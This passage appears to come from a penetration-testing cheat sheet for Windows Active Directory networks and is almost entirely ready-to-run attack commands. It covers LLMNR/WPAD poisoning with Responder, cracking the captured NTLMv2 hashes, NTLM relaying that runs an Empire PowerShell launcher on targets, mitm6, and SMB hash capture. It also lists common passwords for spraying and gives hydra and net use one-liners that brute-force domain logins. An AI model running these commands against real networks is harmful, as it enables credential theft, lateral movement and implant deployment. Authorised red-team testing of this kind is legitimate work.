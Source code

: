 `responder -I eth0 --wpad -b -f -F`

#### Filter logs from logs folder and remove machine accounts:

`sort -m *.txt | uniq -d | awk '!/\$/'`

#### Cracking with John:

`john SMB-NTLMv2-Client-172.20.22.217.txt --wordlist=/root/passwords.txt`

Use hashcat on a more powerful box. This is only for easy wins.

#### NTLM Relaying 

`ntlmrelayx.py -tf targets.txt -c <insert Empire Powershell launcher>`
  
### MITM6

`python mitm6.py -d blah.local`

#### Capture hashes

`impacket-smbserver hiya /tmp/ -smb2support`

## Bruteforce domain passwords
### Common Passwords

$Company1
$Season$Year
Password1
Password!
Welcome1
Welcome!
Welcome@123
P@55word
P@55w0rd
$month$year

### Using hydra

`hydra -L users.txt -p Password1 -m 'D' 172.20.11.55 smbnt -V`

### Bruteforce using net use

`@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\DOMAINCONTROLLER\IPC$ /user:DOMAIN\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\DOMAINCONTROLLER\IPC$ > NUL`


### all systems

`net view /domain > systems.txt`

### Local admin search using net use

